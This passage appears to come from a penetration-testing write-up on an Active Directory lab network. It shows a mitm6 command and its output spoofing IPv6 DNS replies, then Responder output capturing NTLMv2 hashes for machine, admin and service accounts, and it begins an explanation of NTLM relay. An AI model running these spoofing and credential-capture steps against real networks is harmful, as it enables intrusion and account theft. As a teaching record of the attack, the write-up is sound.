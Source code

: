 ```bash
```

### IPv6 DNS Poisoning with MITM6

To increase my chances of intercepting authentication, I also deployed MITM6. This tool exploits the fact that Windows prioritizes IPv6 over IPv4 by default, but many corporate networks haven't properly secured their IPv6 implementation.

MITM6 spoofs IPv6 router advertisements and DNS responses, forcing Windows clients to use the attacker as their DNS server:

```bash
sudo mitm6 -d corp.local

Starting mitm6 using the following configuration:
Primary adapter: eth0 [00:0c:29:9a:b1:c2]
IPv4 address: 192.168.0.3
IPv6 address: fe80::20c:29ff:fe9a:b1c2
DNS local search domain: corp.local
DNS allowlist: corp.local
Sent spoofed reply for FILE-SERVER01.corp.local. to fe80::1eb8:804e:abdc:2526
IPv6 address fe80::3908:1 is now assigned to mac=fc:3f:db:53:fd:1d
Sent spoofed reply for DC-APPSERVER.corp.local. to fe80::a1c2:7cd2:e569:b991
Sent spoofed reply for wpad.corp.local. to fe80::a1c2:7cd2:e569:b991
```

## Credential Capture

After running Responder and MITM6 for just a short time, I captured several NTLMv2 hashes from domain users and service accounts:

```
[*] [NTLM] NTLMv2-SSP Client   : 192.168.0.107
[*] [NTLM] NTLMv2-SSP Username : CORP\FILE-SERVER01$
[*] [NTLM] NTLMv2-SSP Hash     : FILE-SERVER01$::CORP:1122334455667788:A1B2C3D4E5F6A7B8C9D0A1B2C3D4E5F6:0101000000000000...

[*] [NTLM] NTLMv2-SSP Client   : 192.168.0.64
[*] [NTLM] NTLMv2-SSP Username : CORP\jifko.admin
[*] [NTLM] NTLMv2-SSP Hash     : jifko.admin::CORP:1122334455667788:A1B2C3D4E5F6A7B8C9D0A1B2C3D4E5F6:0101000000000000...

[*] [NTLM] NTLMv2-SSP Client   : 192.168.0.28
[*] [NTLM] NTLMv2-SSP Username : CORP\sqlservice
[*] [NTLM] NTLMv2-SSP Hash     : sqlservice::CORP:1122334455667788:A1B2C3D4E5F6A7B8C9D0A1B2C3D4E5F6:0101000000000000...
```

## Understanding NTLM Relay Attacks

NTLM is Microsoft's legacy authentication protocol used throughout Active Directory. In a standard NTLM exchange, a client sends an authentication request, the server responds with a challenge, and the client returns a response based on its password hash. The server verifies this response to authenticate the user.
